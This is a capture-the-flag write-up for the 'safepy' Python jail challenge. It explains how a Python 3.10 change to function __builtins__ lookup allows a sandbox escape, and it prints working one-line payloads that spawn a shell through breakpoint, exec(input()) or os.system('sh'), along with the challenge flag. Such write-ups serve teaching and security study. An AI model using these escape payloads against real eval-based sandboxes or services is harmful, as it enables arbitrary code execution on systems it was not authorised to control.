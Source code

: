 # safepy

Categories: misc

Description:
> safepy
>
> "angstrom needs a pyjail" - kmh11
>
>
> $ `nc challs.actf.co 31401`
>
> author: aplet123
>
> [Dockerfile](src/Dockerfile) [jail.py](src/jail.py)

**Tags:** python, jail

## Takeaways

* Walrus to chain multiple expressions
* Shellcode restricted only to the characters `'():=_abcdefghijklmnopqrstuvwxyz`
  * No whitespaces were allowed
* `__builtins__` internals

## Solution

The source code of the challenge is really simple:

```python
#!/usr/local/bin/python
cod = input("sned cod: ")

if any(x not in "q(jw=_alsynxodtg)feum'zk:hivbcpr" for x in cod):
    print("bad cod")
else:
    try:
        print(eval(cod, {"__builtins__": {"__import__": __import__}}))
    except Exception as e:
        print("oop", e)
```

Okay, as it seems we have a bunch of whitelisted characters with which we need to write our code that pops a shell in order to read the flag file. The `__builtins__` seem to be deleted when our code gets run. From the [Dockerfile](src/Dockerfile), we know that we are running python version `3.10-slim-bullseye`. Let's sort the whitelist so that we can get a better visual understanding:

```python
In [1]: ''.join(sorted("q(jw=_alsynxodtg)feum'zk:hivbcpr"))
Out[1]: "'():=_abcdefghijklmnopqrstuvwxyz"
```

Okay, so here are our observations:

* We can do function calls or group things as the parentheses `()` are allowed
* We can use the new [walrus operator](https://docs.python.org/3/whatsnew/3.8.html#assignment-expressions) `:=`
* We can use strings with the single quote `'`
* All 26 lowercase letters are allowed
* We are allowed the underscore `_`. This is good because we can access internal stuff, for example `__builtins__`
* We are **not** allowed to use spaces. This is a bummer.
* We are **not** allowed to use comma `,`. This is also a bummer, e.g. for function calls with more than one arguments.
* We are **not** allowed to use the (double) star `*` operator. This is a bummer because we could be expanding things without using a comma. For example, in function calls that require more than one argument.
* We are **not** allowed the dot `.`. This is a bummer because we cannot access members fields.
  * An alternative to the dot `.` for accessing member fields is the `getattr(obj, 'field')` method. However, this is not viable as we need the comma in this case.
* We can create a dummy tuple:
  ```python
  In [5]: type(())
  Out[5]: tuple
  ```
* We can use anonymous lambda functions, which do not take any arguments. And we can also invoke them:
  ```python
  In [6]: lambda:'hello'
  Out[6]: <function __main__.<lambda>()>

  In [7]: (lambda:'hello')()
  Out[8]: 'hello'
  ```

Okay, let's modify the code a little bit to make it easier to play around in `ipython`:

```python
def jail(cod):
  if any(x not in "q(jw=_alsynxodtg)feum'zk:hivbcpr" for x in cod):
    print("bad cod. Won't be executed in regular jail.")
  try:
    print(eval(cod, {"__builtins__": {"__import__": __import__}}))
  except Exception as e:
    print("Exception: ", e)
```

```python
In [26]: jail('breakpoint')
Exception:  name 'breakpoint' is not defined
```

Hmm.. As we see, the `eval` replaces the `__builtins__` global (where `breakpoint` is defined) with its own `__builtins__` dictionary. According to the [documentation](https://docs.python.org/3/library/functions.html#eval):

> [...] If the `globals` dictionary is present and does **not** contain a value for the key `__builtins__`, a reference to the dictionary of the built-in module `builtins` is inserted under that key before expression is parsed. **That way you can control what builtins are available to the executed code by inserting your own `__builtins__` dictionary into globals before passing it to `eval()`**. If the `locals` dictionary is omitted it defaults to the `globals` dictionary. [...]

Okay, so only the `__import__` built-in should be available to us. Let's test this:

```python
In [30]: jail('__import__')
<built-in function __import__>
```

Great! So we can import modules. But we cannot use the `.` to access members. For example:

```python
In [75]: jail("__import__('builtins')")
<module 'builtins' (built-in)>

In [76]: jail("__import__('builtins').breakpoint")
bad cod. Won't be executed in regular jail.
<built-in function breakpoint>
```

So, after we import the `builtins` module, how can we access the `breakpoint` function? Here comes some creativity and trial and error:

* We will use the walrus operator (`:=`) to chain multiple expressions. For example:
  ```python
  In [79]: jail("((x:='a')and(y:='b')and(x))")
  a
  ```
* We will replaced the `__builtins__` with the return value of `__import__('builtins')`.

Next, we will try to somehow invoke `breakpoint`. Let's see:

```python
In [123]: jail("(__builtins__:=__import__('builtins'))")
<module 'builtins' (built-in)>

In [124]: jail("((__builtins__:=__import__('builtins'))and(breakpoint))")
Exception:  name 'breakpoint' is not defined

In [125]: jail("((__builtins__:=__import__('builtins'))and(lambda:breakpoint))")
<function <lambda> at 0x7ff59f016440>

In [126]: jail("((__builtins__:=__import__('builtins'))and((lambda:breakpoint)()))")
<built-in function breakpoint>

In [127]: jail("((__builtins__:=__import__('builtins'))and((lambda:breakpoint)()()))")
--Return--
> <string>(1)<module>()->None
(Pdb) import os; os.system('sh');
$ ls
Dockerfile  flag.txt  jail.py
$ cat flag.txt
actf{c0uln7_g3t_1t_7o_w0rk_0n_python39_s4dge}
```

And we get the flag!

`actf{c0uln7_g3t_1t_7o_w0rk_0n_python39_s4dge}`

But why does this even work? Well, if we check [What's new in python 3.10](https://docs.python.org/3/whatsnew/3.10.html#other-language-changes), we will find the following change:

> Functions have a new `__builtins__` attribute which is used to look for builtin symbols when a function is **executed**, instead of looking into `__globals__['__builtins__']`. The attribute is initialized from `__globals__['__builtins__']` if it exists, else from the current `builtins`. (Contributed by Mark Shannon in [bpo-42990](https://bugs.python.org/issue?@action=redirect&bpo=42990).)

So, here is what is happening in our payload:

* We import the module `builtins` via the `__import__('builtins')` statement
* We assigned the imported module into the `__builtins__` global variable
  * This assignment updates the `__globals__['__builtins__']` with the imported module
* We create an anonymous function with the `lambda` expression
  * This function returns the `breakpoint` symbol when executed
  * According to the 3.10 change above, the `breakpoint` symbol will be looked up into the lambda's `.__builtins__` attribute when the function gets executed
  * The `.__builtins__` attribute will be initialized when the function gets created to whatever value the global `__builtins__` has. For example:
    ```python
    In [138]: jail("((__builtins__:='ABCD')and((lambda:breakpoint).__builtins__))")
    bad cod. Won't be executed in regular jail.
    ABCD

    In [139]: jail("((__builtins__:={'ABCD': 'foobar'})and((lambda:breakpoint).__builtins__))")
    bad cod. Won't be executed in regular jail.
    {'ABCD': 'foobar'}

    In [140]: jail("((__builtins__:=__import__('builtins'))and((lambda:breakpoint).__builtins__))")
    bad cod. Won't be executed in regular jail.
    {'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, ...}
    ```
* We execute the anonymous lambda function.
   * The lambda function returns the `breakpoint` symbol
   * This symbol will be looked up in the `.__builtins__` attribute of the function
* We execute the return value of the lambda function, i.e. we execute `breakpoint()`
* We pop a shell. Yay!

### Alternative solutions

#### Alternative 1

Since now we have all the builtin functions, instead of `breakpoint()` we could also use `exec(input())`:

```python
In [159]: jail("((__builtins__:=__import__('builtins'))and((lambda:exec(input()))()))")
import os; os.system('sh');
$ cat flag.txt
actf{c0uln7_g3t_1t_7o_w0rk_0n_python39_s4dge}
```

#### Alternative 2

If you understood everything so far, you know that when the lambda gets executed, symbols will be looked up from the lambda's `.__builtins__` attribute, which is initialized from the global variable `__builtins__`. So, the following is also legal:

```python
In [160]: jail("((__builtins__:=__import__('os'))and((lambda:system('sh'))()))")
$ cat flag.txt
actf{c0uln7_g3t_1t_7o_w0rk_0n_python39_s4dge}
```
